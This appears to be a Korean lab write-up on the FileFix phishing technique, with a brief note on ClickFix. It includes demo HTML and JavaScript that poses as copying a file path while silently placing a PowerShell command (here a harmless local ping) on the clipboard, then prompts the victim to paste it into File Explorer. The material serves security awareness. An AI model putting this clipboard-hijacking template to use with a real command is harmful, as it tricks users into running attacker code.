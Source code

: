 
# FileFix 공격

## 정의

피싱 페이지에서 ‘파일 공유 알림’ 등으로 위장해 사용자가 특정 경로를 파일 탐색기 주소창에 붙여 넣도록 유도

## 실습

![image](https://github.com/user-attachments/assets/dceadcf7-0b4c-495f-98b1-25b4d6840ff8)

클립보드 복사를 하도록 유도하는 웹페이지

![image](https://github.com/user-attachments/assets/f95747a7-0e00-48f4-9926-f3f48a4e1766)

버튼 클릭 시 알림이 나타나면서 파일 탐색기에 복사한 내용을 붙여넣도록 다음 행동 유도

<img src=https://github.com/user-attachments/assets/179c6aef-aa4d-4412-ad7d-21b57eddc12b width=600>

파일 탐색기에 붙여넣으면 powershell에서 ping 명령어를 실행하는 명령어도 함께 복사된 것을 확인할 수 있음

<img src=https://github.com/user-attachments/assets/bb74d151-7ed1-437d-b406-f56964052e67 width=600>

powershell에서 ping 명령어가 실행됨

※ 웹사이트 주요 코드

```
<div class="box" onclick="copyPayload()">
  📁 C:\CompanyPolicy\HRGuide.docx
</div>
```

겉으로는 파일 경로를 복사하는 것처럼 보임

```
<script>
function copyPayload() {
  const payload = `powershell.exe -c "ping 127.0.0.1" # C:\\CompanyPolicy\\HRGuide.docx`;
  const textarea = document.createElement("textarea");
  textarea.value = payload;
  document.body.appendChild(textarea);
  textarea.select();
  document.execCommand("copy");
  document.body.removeChild(textarea);
  alert("Path copied to clipboard! Try pasting it into File Explorer’s address bar.");
}
</script>
```

클립보드에 복사한 값이 powershell.exe -c "ping 127.0.0.1" # C:\\CompanyPolicy\\HRGuide.docx 이 됨

## 클릭픽스

- 정의 : 웹사이트에서 버튼을 클릭하면 악성 파워셸 명령이 클립보드에 복사되고, 사용자가 이를 실행 대화창(Win+R)이나 명령 프롬프트에 붙여 넣도록 유도

## 시사점

출처가 불분명한 파일이나 명령어 복사 붙여넣기에 대한 경각심 필요

출처 : https://www.boannews.com/media/view.asp?idx=137854&page=1&kind=1
